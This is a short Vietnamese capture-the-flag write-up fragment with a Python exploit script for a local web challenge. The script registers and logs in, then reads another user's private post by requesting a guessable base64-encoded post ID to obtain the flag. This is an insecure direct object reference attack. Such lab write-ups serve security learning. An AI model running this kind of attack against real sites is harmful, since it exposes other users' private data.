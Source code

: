 ![image](https://hackmd.io/_uploads/HJ0AAv7tp.png)

mình viết lại script khai thác:

```python
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# from bs4 import BeautifulSoup

url = 'http://127.0.0.1:24002'

session = requests.Session()
# đăng ký tài khoản
data = {
    'username': 'cuong',
    'password': 123
}

response = session.post(
    url + '/index.php?action=register',
    data=data,
    verify=False,
)

print(response.text) # verify

# đăng nhập tài khoản
response = session.post(
    url + '/index.php?action=login',
    data=data,
    verify=False
)

print(response.text) # verify

# đăng bài viết ở dạng riêng tư -> public = 0
data_content = {
    'content': 'cuong',
    'public': 0
}

response = session.post(
    url + '/post.php?action=create',
    data=data_content,
    verify=False,
)

print(response.text) # verify

# hiển thị bài đăng có id là 000003 của crush
response = session.get(
    url + '/post.php?action=read&id=MDAwMDAz',
    verify=False,
)

print(response.text) # hiển thị response có flag
```
